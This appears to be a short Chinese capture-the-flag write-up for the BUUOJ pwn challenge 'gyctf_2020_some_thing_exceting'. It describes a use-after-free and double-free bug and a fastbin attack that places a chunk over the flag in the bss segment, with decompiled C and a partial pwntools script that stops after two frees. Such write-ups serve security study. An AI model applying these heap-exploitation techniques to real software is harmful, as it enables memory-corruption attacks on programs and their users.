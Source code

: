 后门

flag 丢到了bss段上的s变量

然后他很皮的预留了个0x60大小的bss段地址

存在UAF以及UAF衍生出的Double free漏洞。于是可以使用fastbin attack借助预留的x60将chunk直接分配过去，flag就会恰好在ba的位置，可以直接进行读取

```c
unsigned __int64 flag()
{
  FILE *stream; // [rsp+0h] [rbp-10h]
  unsigned __int64 v2; // [rsp+8h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  setbuf(stdin, 0LL);
  setbuf(stdout, 0LL);
  stream = fopen("flag", "r");
  if ( !stream )
  {
    puts("mmmmmm!Maaybe you want Fool me!");
    exit(0);
  }
  byte_6020A0 = 0x60;
  fgets(s, 45, stream);
  return __readfsqword(0x28u) ^ v2;
}
```

```python
from pwn import *
context.log_level="debug"

r=remote('node4.buuoj.cn',29269)
#r=process('./gyctf_2020_some_thing_exceting')
elf=ELF('./gyctf_2020_some_thing_exceting')

def add(size1,content1,size2,content2):
	r.recvuntil('> Now please tell me what you want to do :')
    	r.sendline('1')
    	r.recvuntil('length : ')
    	r.sendline(str(size1))
    	r.recvuntil('> ba : ')
    	r.sendline(content1)
    	r.recvuntil('length : ')
    	r.sendline(str(size2))
    	r.recvuntil('> na : ')
    	r.sendline(content2)

def show(index):
	r.recvuntil('to do :')
	r.sendline('4')
	r.recvuntil('project ID : ')
	r.sendline(str(index))

def free(index):
	r.recvuntil('to do :')
	r.sendline('3')
	r.recvuntil('Banana ID : ')
	r.sendline(str(index))


add(0x50,'aaaa',0x50,'bbbb')#0
add(0x50,'cccc',0x50,'dddd')#1
free(0)
free(1)
```